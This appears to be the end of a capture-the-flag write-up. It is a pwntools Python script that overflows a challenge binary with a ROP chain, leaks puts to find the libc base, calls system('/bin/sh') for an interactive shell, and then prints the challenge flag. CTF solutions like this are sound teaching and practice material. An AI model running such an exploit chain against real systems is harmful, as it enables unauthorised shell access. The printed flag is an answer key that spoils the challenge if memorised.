 ```python
	pop_rsi_r15 = elf.search(asm("pop rsi ; pop r15 ; ret")).next()

	payload = padding 
	payload += p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
	sla("Enter your name: ", payload)
	sla("Enter password please: ", '') 

	p.recvline()
	p.recvline()

	puts = u64(p.recvline().strip() + '\x00'*2)
	base = puts - libc.symbols['puts']
	system = base + libc.symbols['system']
	sh = base + libc.search("/bin/sh\x00").next()

	payload = padding + p64(pop_rdi) + p64(sh) + p64(pop_rsi_r15) + p64(0) + p64(0) + p64(system)

	sla("Enter your name: ", payload)
	sla("Enter password please: ", '')
	 
	lg("SYSTEM: " + hex(system))
	lg("BASE: " + hex(base))
	p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])

    if "libc" in config.keys() and config["libc"]:
        libc = ELF(config["libc"])

    if sys.argv[-1] == "remote":
        p = remote(config["HOST"], config["PORT"])
    else:
        if "libc" in dir(): 
            p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
        else: 
            p = process(config["elf"])

        pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    r = lambda a: p.recv(a)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```

**Flag:** `TIMCTF{d3v_fd_i5_sn3aky_backd00r}`
